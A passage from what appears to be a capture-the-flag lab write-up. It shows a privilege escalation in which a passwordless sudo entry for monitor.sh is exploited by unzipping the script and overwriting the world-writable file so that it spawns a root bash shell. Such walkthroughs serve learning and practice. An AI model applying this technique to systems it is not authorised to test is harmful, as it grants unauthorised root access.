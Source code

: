 We can execute the /home/nibbler/personal/stuff/monitor.sh with root privilleges without password.

Right now we cannot access as the file does not exists, I tried and later discovered , it is all in a zip file that is extracted to give the file that can executed with root permissions.

```bash
# Tryig to access the file, failed
$ cat /home/nibbler/personal/stuff/monitor.sh
cat: /home/nibbler/personal/stuff/monitor.sh: No such file or directory
$ ls /home/nibbler/personal/stuff/monitor.sh
ls: cannot access '/home/nibbler/personal/stuff/monitor.sh': No such file or directory

#checking contents of home, we find zip file 
$ cd /home/nibbler
$ ls
personal.zip
user.txt

#unzip the archive
$ unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh  
$ ls -l
total 12
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 personal
-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip
-r-------- 1 nibbler nibbler   33 Sep  4 23:45 user.txt
$ cd personal
$ ls
stuff
$ cd stuff
$ ls
monitor.sh
```

We have finally the file that can run as root without password, the file is a bash script, and we can write / overwrite over this to execute what we want.

```bash
$ pwd
/home/nibbler/personal/stuff
$ ls -l
total 4
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
$ 
```

Let us overwrite the file to execute bash.

Inset the below into file.
```bash
#!/bin/sh
bash
```
